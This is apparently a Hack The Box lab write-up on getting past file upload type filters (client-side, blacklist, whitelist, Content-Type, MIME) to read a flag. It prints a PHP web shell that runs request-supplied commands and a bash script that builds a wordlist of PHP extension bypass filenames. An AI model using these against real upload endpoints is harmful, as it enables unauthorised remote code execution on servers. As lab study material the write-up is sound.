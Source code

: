 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Common web extensions list: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- We download the wordlist and filter for image-related `content-type`:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Note: `/image/jpg` is not in the list.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

# Exercise

## Fuzzing the `Content-Type` Header

We performed fuzzing on the `Content-Type` header to determine which types are allowed:  
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)  
![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)  

The results revealed that the following types are permitted:  
- `image/gif`  
- `image/jpeg`  
- `image/png`  

Manually testing also confirmed that `image/jpg` is allowed.  


---

## Testing File Content Using Magic Bytes

We tested the uploaded files' content by checking their **magic bytes** to determine the permitted MIME types:  
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)  


---

## Attempting to Upload a `.php` Web Shell

We tried uploading a simple `php` code with a `.php` extension. However, the server responded with the following error:  
**`Extension not allowed`**:  
![image](https://github.com/user-attachments/assets/dd4764de-2964-46f9-b94f-e9f0b34842d8)


---

## Fuzzing Whitelist with Common Web Extensions

To investigate whether any web extensions other than image extensions were allowed, we fuzzed the server with **common web extensions** from SecLists.  
Unfortunately, no additional web extensions were accepted in the whitelist:  
![image](https://github.com/user-attachments/assets/62714133-dcd5-4cee-8ede-aed8c6e0128e)

![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)  

---

## Observations

- **Blacklist Validation:** When the server uses a blacklist, it rejects files with `.php` extensions and responds with `Extension not allowed`.  
- **Whitelist Validation:** When the server uses a whitelist, it only accepts image extensions and responds with `Only images are allowed` for any other file types.


# Extension Fuzzing with a Custom Wordlist

We will perform extension fuzzing using a custom wordlist containing various payloads designed to bypass both whitelists and blacklists. To generate this wordlist, we used the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```

![image](https://github.com/user-attachments/assets/d38dc1fb-0145-46e3-995e-b62b0d0f235a)
![image](https://github.com/user-attachments/assets/b5a30412-a7dc-4b71-ac59-7668dd551648)



# Accessing Uploaded Extensions and Executing Code

We observed that several extensions could be successfully uploaded. Next, we made a request to view the uploaded files and performed fuzzing using the same wordlist. This approach also tested access to the previously uploaded files:

![Fuzzing Uploaded Files](https://github.com/user-attachments/assets/daa20c87-d26a-4232-88f7-1b2935ae3e55)

## Identifying Executable Extensions

Among all the files that were successfully uploaded and accessible (status code 200), only a few were able to interpret and execute code:

![Executable Extensions](https://github.com/user-attachments/assets/3b96a212-41bd-46c3-aa74-8b3c1cb721d4)

## Deploying the Web Shell

We uploaded the web shell:

![Uploading Web Shell](https://github.com/user-attachments/assets/a3ea2241-07b1-4707-b1b1-3139e46985d5)

Then, we accessed the previously uploaded file:

![Accessing Web Shell](https://github.com/user-attachments/assets/efeea997-8b73-45b4-bbca-22ac059d925d)

## Capturing the Flag

Finally, we retrieved the flag and completed the lab:

![Flag Retrieved](https://github.com/user-attachments/assets/9782e1f3-54f1-4c10-93b5-e96ea9ba8600)







